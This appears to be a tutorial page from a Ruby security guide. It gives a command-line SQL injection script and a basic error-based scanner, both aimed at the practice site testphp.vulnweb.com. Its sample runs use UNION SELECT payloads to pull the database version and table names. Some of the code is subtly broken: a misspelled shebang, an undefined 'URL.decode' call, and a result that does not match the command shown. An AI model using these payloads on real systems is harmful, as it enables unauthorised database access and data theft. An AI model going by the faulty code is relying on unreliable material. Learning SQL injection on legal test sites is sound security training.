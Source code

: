 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
#
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
#
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      '\'',
      '"',
      '\' or 1=2--+'
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occured = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try this url (http://testasp.vulnweb.com/showforum.asp?id=0)

Results
```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable!
```
